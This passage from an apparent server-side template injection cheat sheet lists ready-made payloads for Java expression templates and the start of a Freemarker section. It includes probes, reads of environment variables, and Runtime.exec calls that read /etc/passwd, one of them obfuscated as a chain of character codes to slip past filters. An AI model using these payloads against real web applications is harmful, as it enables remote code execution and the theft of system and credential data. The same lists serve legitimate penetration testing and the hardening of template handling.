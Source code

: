 ## Java

### Java - Basic Injection

> Multiple variable expressions can be used, if `${...}` doesn't work try `#{...}`, `*{...}`, `@{...}` or `~{...}`.

```java
${7*7}
${{7*7}}
${class.getClassLoader()}
${class.getResource("").getPath()}
${class.getResource("../../../../../index.htm").getContent()}
```

### Java - Retrieve Environment Variables

```java
${T(java.lang.System).getenv()}
```

### Java - Retrieve /etc/passwd

```java
${T(java.lang.Runtime).getRuntime().exec('cat /etc/passwd')}

${T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(99).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(32)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(99)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(112)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(119)).concat(T(java.lang.Character).toString(100))).getInputStream())}
```

---

## Freemarker

[Official website](https://freemarker.apache.org/)
> Apache FreeMarker™ is a template engine: a Java library to generate text output (HTML web pages, e-mails, configuration files, source code, etc.) based on templates and changing data.

You can try your payloads at [https://try.freemarker.apache.org](https://try.freemarker.apache.org)

### Freemarker - Basic Injection

The template can be :

- Default: `${3*3}`  
- Legacy: `#{3*3}`
- Alternative: `[=3*3]` since [FreeMarker 2.3.4](https://freemarker.apache.org/docs/dgui_misc_alternativesyntax.html)
